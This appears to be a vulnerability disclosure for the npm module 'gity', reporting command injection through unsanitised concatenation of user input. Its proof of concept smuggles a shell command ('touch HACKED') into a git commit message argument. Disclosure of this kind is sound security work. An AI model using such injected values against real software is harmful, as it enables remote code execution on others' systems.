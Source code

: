 # Description

The `gity` module is vulnerable against `arbitrary command injection` caused by `insecure concatenation` of `user supplied` data which aren't sanitized properly, leading to `RCE`.

# POC

1. Create the following PoC file:

```js
// poc.js
var Git = require('gity');
 
var git = Git()
  .add('*.js')
  .commit('-m "added js files";touch HACKED;#')
  .run();

```
2. Make sure that the `HACKED` file doesn't exist 
3. Execute the following commands in another terminal:

```bash
npm i gity # Install affected module
node poc.js #  Run the PoC
```
4. The `HACKED` file is created :)
